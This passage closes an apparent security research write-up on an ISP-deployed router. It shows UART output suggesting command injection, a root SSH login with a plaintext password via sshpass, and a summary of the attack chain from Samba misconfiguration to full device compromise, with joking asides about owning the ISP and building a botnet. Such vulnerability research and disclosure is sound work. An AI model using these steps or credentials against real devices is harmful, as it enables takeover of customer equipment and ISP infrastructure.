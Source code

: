 #### 24. Shell or no shell?

UART log:
```
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=64 time=0.429 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max = 0.429/0.429/0.429 ms
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   370  100   370    0     0   6612      0 --:--:-- --:--:-- --:--:-- 46250
```

#### 25. UID 0

```
# sshpass -p1234aaa ssh root@192.168.1.1

BusyBox v1.20.1 (2018-04-09 14:02:04 CST) built-in shell (ash)
Enter 'help' for a list of built-in commands.

# id; uname -a
uid=0(root) gid=0 groups=0
Linux CPE 3.4.11 #5 SMP PREEMPT Mon Apr 9 17:28:53 CST 2018 mips GNU/Linux
```

#### 26. Conclusion

- Samba misconfiguration -> information disclosure
- enabled hardware debug interface -> information disclosure
- lack of input validation -> command injection (and more)
- root the device -> information disclosure about ISP-deployment/ACS
- own the ISP -> g0d mode? :alien:
- we can (probably) help the ISP make a better choice in the hardware
- many ISPs (each with their own firmware / devices...) -> attack surface (where my b0tnet at?)
- why not test these devices before they go into production? (millions could be affected)
